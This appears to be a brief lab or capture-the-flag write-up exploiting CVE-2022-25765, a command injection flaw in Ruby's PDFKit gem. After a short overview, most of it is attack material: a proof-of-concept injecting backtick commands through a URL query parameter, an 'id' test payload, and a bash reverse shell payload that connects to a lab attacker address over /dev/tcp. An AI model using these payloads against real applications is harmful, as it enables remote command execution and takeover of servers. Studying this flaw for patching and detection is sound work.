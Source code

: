 We were able to find a cve: Introduced: 14 Jun 2022

[CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765)

````bash
## Overview

Affected versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

**NOTE:** This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.

## PoC:

An application could be vulnerable if it tries to render a URL that contains query string parameters with user input:

```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
````

If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:

```ruby
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command
wkhtmltopdf --quiet [...] "http://example.com/?name=%20`sleep 5`" -
=> nil
```

**Payload**

```
http://10.10.14.100/?name=%20`id
```

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We were able to validate the command injection.

**Rev shell**

```bash
http://10.10.14.100:8000/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.100/444 0>&1"`
```
